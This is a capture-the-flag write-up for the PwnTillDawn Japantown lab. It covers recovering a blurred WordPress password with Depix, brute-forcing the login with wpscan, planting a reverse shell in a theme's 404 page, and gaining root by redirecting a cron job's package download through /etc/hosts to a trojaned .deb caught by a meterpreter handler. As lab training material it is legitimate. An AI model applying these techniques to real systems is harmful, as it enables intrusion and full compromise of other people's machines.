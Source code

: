 ```yaml
---
layout: post
title: PwnTillDawn - Japantown Write-Up
date: 2024-11-18
classes: wide
description: Depixelanting passwords and backdooring debian packages to success!
---
```


# Japantown (10.150.150.21)

![](/assets/img/post/pwntilldawn_japantown/1.png)

## Initial Scanning

First things first, let's run nmap to see what ports we can explore on the target's machine.

```
$ sudo nmap -sV -sC -oN scans/nmap.txt 10.150.150.21
```

![2](/assets/img/post/pwntilldawn_japantown/2.png)

We can see two open ports being SSH and HTTP, so the reconnaissance process will be quick. As SSH is rarely exploitable in CTFs, the web server is our best bet.



## Web Server Exploration

Turns out the web server is a Wordpress blog with one single post and an about me page.

![](/assets/img/post/pwntilldawn_japantown/3.png)

To avoid missing out important information, I often like to verify the page source-code to find hidden links or comments that might be useful and also reading the `robots.txt` page, if it exists, to identify relevant information, which in this case turns out to be very profitable this time.

![](/assets/img/post/pwntilldawn_japantown/5.png)

The post page contains a flag that we need to complete the challenge. The `robots.txt` page also has juicy information.

![](/assets/img/post/pwntilldawn_japantown/4.png)

Not only this page has a flag but it also show us an important file that we'll be using later on, as we, ironically, don't know what it is for, yet.



## Depix 2 Win

Funny enough, the author of this blog, which is called `kim` thinks posting his blurred password is a cool idea, and tell us that there's a tool that can be used to read the password.

![](/assets/img/post/pwntilldawn_japantown/6.png)

The tool is called **Depix** and it's available on [Github](https://github.com/spipm/Depix). The ideia is taking a blurred image and comparing pixels with a search image to find potential characters that match the blurred ones.

![](/assets/img/post/pwntilldawn_japantown/7.png)

Now remember that one file we found on `robots.txt`? Time to use it. When accessed directly, the image looks broken, but it's in fact Base64 encoded, and once decoded, becomes our search image for this challenge.

```
$ curl -L http://10.150.150.21/blog/wp-content/uploads/2020/12/you-know-what-this-is-for.png | base64 -d | tee searchimage.png
```

![](/assets/img/post/pwntilldawn_japantown/8.png)

So, accordingly to the tool's documentation, we're supposed to crop the image until we have only the pixels of the blurred text and run the tool against it. So we crop the image and we're ready to go.

<img src="/assets/img/post/pwntilldawn_japantown/9.png" style="zoom:300%;" />

> :warning: **Important Note:** It took me a really long time to figure this out, but cropping the image using `gthumb` will mess up the output. Use GIMP instead.

```
$ python depix.py -p password.png -s searchimage.png -o output.png
```

After a short while, we'll get the output with the password, that will not be completly readable, but good enough for us to guess the password.

<img src="/assets/img/post/pwntilldawn_japantown/10.png" alt="10" style="zoom:300%;" />

We can cleary see some of the letter, so the password is something like `kimi**hina4`, so I would guess it's `kiminchina4`? Just to be sure, we can use `crunch` together with `wpscan` to try logging in with this username and identifying the missing letters. Also, if you haven't figured out the username, wpscan can also enumerate and tell you the correct user.

```
$ crunch 11 11 -t kimi@@hina4 -o wordlist.txt
$ wpscan --url http://10.150.150.21/ -U 'kim' -P wordlist.txt
```

![](/assets/img/post/pwntilldawn_japantown/11.png)

We now got confirmation that the password is correct, so we can login as `kim`.



## Initial Access

Soon after compromising the author's account, the next flag can be found in the post page, as a draft.

![](/assets/img/post/pwntilldawn_japantown/12.png)

From now, our objective is to get a shell, which is quite easy actually. Since wordpress is built using PHP, we can either modify a plugin or a page. Also, I'll be using `msfvenom` to generate a shell, but you can also use the famous [Penstestmonkey's PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), it works the same.

![](/assets/img/post/pwntilldawn_japantown/13.png)

Next we'll be going to Theme Editor and select the `404.php` page and paste `shell.php` contents inside, since 404 is an easily accessible page. Once we load a non-existent page on the website, we'll get a shell.

> :bulb: **Note:** Remember to start your metasploit or netcat listener otherwise the shell won't connect to your machine.

Once the connection arrives, we can see our current user is `www-data` as expected, what is unexpected tho is the `password_for_www_data` file, which stores a password that we can use to login through SSH. Switching to an SSH connection or not is completely up to you. 

![](/assets/img/post/pwntilldawn_japantown/14.png)

The next flag can also be located easily inside Kim's home directory in `/home/kim`:

![](/assets/img/post/pwntilldawn_japantown/15.png)

Kim's directory also has a `script.sh` that basically does nothing but lure you for a while until you realize it's a dead end. At this point I've decided to use [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to run the privilege escalation checks for me and found some interesting information.



## Not So Secure, eh?

First, by monitoring frequent cron jobs, we can identify that the machine is downloading a debian package and installing it every minute.

![](/assets/img/post/pwntilldawn_japantown/16.png)

Second, we have write permissions on the `/etc/hosts` file, which can be used for DNS Spoofing.

![](/assets/img/post/pwntilldawn_japantown/17.png)

Knowing this, we can attempt to trick the machine into downloading a malicious package instead. So we'll edit the `/etc/hosts` file and add a new line using the following command:

```
$ echo "<IP> de.archive.ubuntu.com" >> /etc/hosts
```

![](/assets/img/post/pwntilldawn_japantown/18.png)

So now, whenever the machine tries to download the package, it will download our malicious package instead. The next step is to serve the package.

> :bulb: **Note:** You'll need to craft your package. Doing so it really easy and quick, but the commands may vary from OS, so here's a tutorial from [OffSec](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/) on how to do so and also a [tool](https://github.com/UndeadSec/Debinject) for Python2.7 to automate the process. Remember to use the same name.

Once the package is ready, all we've gotta do is replicate the URL path, serve the package and wait.

```
$ ls ubuntu/pool/main/o/openssh/ssh_8.2p1-4_all.deb
ubuntu/pool/main/o/openssh/ssh_8.2p1-4_all.deb
$ sudo python -m http.server 80
```

As before, I've used `msfvenom` to create the reverse shell. So it's time to start a listener.

```
$ msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST <IP>; set LPORT 443; run -j"
```

![](/assets/img/post/pwntilldawn_japantown/19.png)

With the session opened message, we can access the last flag inside root's home directory.

![](/assets/img/post/pwntilldawn_japantown/20.png)
